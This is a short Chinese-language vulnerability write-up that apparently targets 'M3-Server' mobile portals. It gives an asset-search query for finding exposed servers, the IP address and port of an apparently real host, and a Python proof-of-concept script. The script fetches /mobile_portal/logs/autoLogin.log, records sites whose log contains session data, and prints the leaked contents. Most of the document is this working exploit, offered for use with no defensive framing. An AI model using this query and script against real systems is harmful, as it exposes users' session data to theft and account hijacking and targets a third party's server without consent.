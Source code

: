 ## 一、资产搜索

```
title="M3-Server"
```

## 二、网站测试

```
http://27.151.52.201:9998
```

## 三、验证漏洞

![image-20240903215850890](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240903215850890.png)

## 四、POC

```
def poc(target):
    payload = "/mobile_portal/logs/autoLogin.log"
    headers = {
        "User-Agent": "Mozilla/5.0(X11;Linuxx86_64)AppleWebKit/537.36(KHTML,likeGecko)Chrome/41.0.2227.0Safari/537.36",
        "Accept-Charset": "utf-8",
        "Accept-Encoding": "gzip,deflate",
        "Connection": "close"
    }
    res1 = requests.get(url=target,verify=False,timeout=5)
    if res1.status_code == 200:
        res2 = requests.get(url=target+payload,headers=headers,verify=False,timeout=5)
        if "Session" in res2.text:
            with open("result.txt","a",encoding='utf-8') as f:
                f.write(f"该网站[+]{target}存在敏感信息泄露\n")
            print(f"该网站[+]{target}存在敏感信息泄露")
            print(res2.text)
        else:
            print(f"该网站[+]{target}不存在敏感信息泄露")
    else:
        print("连接超时，请重试!!")
```

## 五、测试结果

![image-20240903220606625](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240903220606625.png)
